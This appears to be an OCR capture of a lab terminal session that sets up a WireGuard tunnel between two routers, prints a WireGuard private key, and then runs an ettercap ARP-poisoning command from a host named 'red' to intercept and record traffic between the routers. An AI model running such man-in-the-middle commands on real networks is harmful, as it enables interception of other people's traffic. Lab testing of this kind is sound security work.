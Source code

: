 #moonrouter
[Peer]
PublicKey = eTZptr1PlCF6wJWIc9vI2BFPbnAWS3BgXDwdyM7nwjo=
AllowedIPs = 10.0.0.125/32,172.125.0.0/24
Endpoint = 192.168.100.251:60000
root@remoterouter:/etc/wireguard#

root@moonrouter:/etc/wireguard# cat wg0.conf
#moonrouter
[Interface]
Address = 10.0.0.125/24
ListenPort = 60000
PrivateKey = WB0ZbNTJA9qV9UPbti27lo4AP+0AAZDnhxpwMmDvSX4=

#remoterouter
[Peer]
PublicKey = vaY4eCP+Ya0woNs4LDE6QcCwnoPB19dgLdVc2d4cEwU=
AllowedIPs = 10.0.0.123/32,172.123.0.0/24
Endpoint = 192.168.100.252:6000

root@moonrouter:/etc/wireguard# wg-quick up wg0
[#] ip link add wg0 type wireguard
[#] wg setconf wg0 /dev/fd/63
[#] ip -4 address add 10.0.0.125/24 dev wg0
[#] ip link set mtu 1420 up dev wg0
[#] ip -4 route add 172.123.0.0/24 dev wg0









vagrant@red:~$ sudo ettercap -T -i eth1 -M arp:remote /192.168.100.252// /192.168.100.251// -L dumpfile -w wireguard.pcap

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
  eth1 -> 08:00:27:47:E5:58
          192.168.100.166/255.255.255.0


SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %
